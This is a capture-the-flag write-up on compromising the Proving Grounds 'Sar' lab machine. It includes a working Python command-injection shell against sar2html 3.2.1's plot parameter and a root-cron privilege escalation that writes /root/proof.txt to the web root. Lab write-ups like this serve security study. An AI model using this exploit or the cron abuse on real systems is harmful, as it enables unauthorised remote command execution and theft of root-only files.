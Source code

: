 ```yaml
---
title: "Proving Grounds (OSCP) - Sar"
category: ctf-writeup
layout: post
---
```



This was a fairly easy machine, I began with a `nmap` scan:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

On port 80 there was a blank website, so I fuzz it and found bunch of files.

```
http://192.168.210.35/robots.txt -> http://192.168.210.35/sar2HTML/
http://192.168.210.35/phpinfo.php
```

Using the `phpinfo` I have enumerated the versions

```bash
sar2html Ver 3.2.1 <-- Vulnerable
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64
Apache/2.4.29
PHP 7.1.32-1+ubuntu18.04.1+deb.sury.org+1
exif 7.1.32-1+ubuntu18.04.1+deb.sury.org+1 - JPEG,TIFF
mysqlnd 5.0.12-dev - 20150407
Net_SFTP_Stream 0.3.2 SFTP Stream Wrapper
```

`sar2html` Was vulnerable to RCE, and I've created a python script to exploit it further.

```python
import bs4
import requests


url = "http://<ip>/sar2HTML/index.php?plot=;"

while True:
    command = input("$ ")
    if command == "exit":
        break
    else:
        response = requests.get(url + command.replace(" ", "%20"))
        html = response.text
        soup = bs4.BeautifulSoup(html, "html.parser")

        sel_tag = soup.find("select", {"class": "select_text"}).children
        for c in sel_tag:
            if c.text == "Select Host":
                continue
            if c.text == "There is no defined host...":
                continue
            print(c.text)
```

Using this script, you can read the `user/local.txt` file to get the first flag. 

I then run the `linpeas` script to check how to privilege escalation, I've noticed that there was a `cron` job that was running on the `*.sh` files in the `/var/www/html` folder:

```bash
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

`finally.sh` is actually calling `write.sh` which is writable by the `www-data`

```
-rwxrwxrwx 1 www-data www-data    55 Mar  5 15:32 write.sh
```

I've used the following script to get the `root` `proof.txt`

```bash
# write.sh
cat /root/proof.txt > /var/www/html/hash.txt
```

Then I waited `5m` to get the flag, I've done it this way since I got problems setting up the reverse shell, nonetheless I got root.